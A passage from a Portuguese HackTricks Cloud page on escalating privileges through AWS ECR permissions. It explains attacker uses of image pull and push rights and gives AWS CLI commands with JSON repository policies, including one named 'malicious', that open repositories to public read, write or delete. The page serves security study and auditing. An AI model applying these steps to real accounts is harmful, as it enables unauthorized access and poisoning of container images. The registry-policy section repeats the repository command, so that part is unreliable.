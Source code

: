# AWS - ECR Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Um invasor com as permissões **`ecr:GetAuthorizationToken`** e **`ecr:BatchGetImage`** pode fazer login no ECR e baixar imagens.

Para obter mais informações sobre como baixar imagens:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

**Impacto potencial:** Privesc indireto interceptando informações sensíveis no tráfego.

### `ecr:GetAuthorizationToken`,`ecr:BatchCheckLayerAvailability`,`ecr:CompleteLayerUpload`,`ecr:InitiateLayerUpload`,`ecr:PutImage`,`ecr:UploadLayerPart`

Um invasor com todas essas permissões **pode fazer login no ECR e fazer upload de imagens**. Isso pode ser útil para escalar privilégios para outros ambientes onde essas imagens estão sendo usadas.

Para aprender como fazer upload de uma nova imagem/atualizar uma, verifique:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Como na seção anterior, mas para repositórios públicos.

### `ecr:SetRepositoryPolicy`

Um invasor com essa permissão poderia **alterar a política do repositório** para conceder a si mesmo (ou até mesmo a todos) **acesso de leitura/escrita**.\
Por exemplo, neste exemplo, o acesso de leitura é concedido a todos.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Conteúdo de `my-policy.json`:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

### `ecr-public:SetRepositoryPolicy`

Como na seção anterior, mas para repositórios públicos.\
Um invasor pode **modificar a política do repositório** de um repositório público ECR para conceder acesso público não autorizado ou para escalar seus privilégios.

```bash
bashCopy code# Crie um arquivo JSON com a política maliciosa do repositório público
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Aplique a política maliciosa do repositório público ao repositório ECR público
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```

**Impacto potencial**: Acesso público não autorizado ao repositório público ECR, permitindo que qualquer usuário faça push, pull ou delete de imagens.

### `ecr:PutRegistryPolicy`

Um invasor com essa permissão poderia **alterar a política do registro** para conceder a si mesmo, sua conta (ou até mesmo a todos) **acesso de leitura/escrita**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>